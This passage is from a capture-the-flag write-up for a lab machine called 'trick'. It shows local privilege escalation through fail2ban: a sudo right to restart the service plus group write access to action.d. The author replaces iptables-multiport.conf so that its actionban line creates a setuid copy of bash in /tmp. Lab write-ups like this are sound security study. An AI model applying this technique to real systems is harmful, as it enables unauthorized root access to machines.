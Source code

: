 ## Fail2ban

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

While prodding around the /etc/fail2ban directories we can see that action.d is apart of the security group, and in addition michael is a part of this group.

```bash
michael@trick:~$ ls -al /etc/fail2ban/action.d
total 76
drwxr-xr-x   6 root root      4096 Jul 30 00:09 .
drwxr-xr-x 126 root root     12288 Jul 29 22:40 ..
drwxrwx---   2 root security  4096 Jul 30 00:09 action.d
-rw-r--r--   1 root root      2334 Jul 30 00:09 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jul 30 00:09 fail2ban.d
drwxr-xr-x   3 root root      4096 Jul 30 00:09 filter.d
-rw-r--r--   1 root root     22908 Jul 30 00:09 jail.conf
drwxr-xr-x   2 root root      4096 Jul 30 00:09 jail.d
-rw-r--r--   1 root root       645 Jul 30 00:09 paths-arch.conf
-rw-r--r--   1 root root      2827 Jul 30 00:09 paths-common.conf
-rw-r--r--   1 root root       573 Jul 30 00:09 paths-debian.conf
-rw-r--r--   1 root root       738 Jul 30 00:09 paths-opensuse.conf
michael@trick:~$ groups
michael security
```

In searching for fail2ban vulnerabilities I came across [this post about being able to change files within action.d to compromise fail2ban](https://juggernaut-sec.com/fail2ban-lpe/#Finding_that_we_have_Write_Permissions_in_actiond). 

The whole vulnerability here is that with any permissions to edit the action.d directory a user can mv files into that directory and overwrite root protected files. The particular file that enables code execution is **iptables-multiport.conf** which can define a command to run when the actionban is triggered (after failed login attempts). Once the service is restarted and the ban is triggered root will have executed our code. I put all this together below.

```bash
michael@trick:/tmp$ mv /etc/fail2ban/action.d/iptables-multiport.conf  .asdasd
michael@trick:/tmp/test$ nano iptables-multiport.conf
michael@trick:/tmp/test$ cat iptables-multiport.conf 
...
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = rm /tmp/bash && cp /bin/bash /tmp && chmod 4755 /tmp/bash
...
```

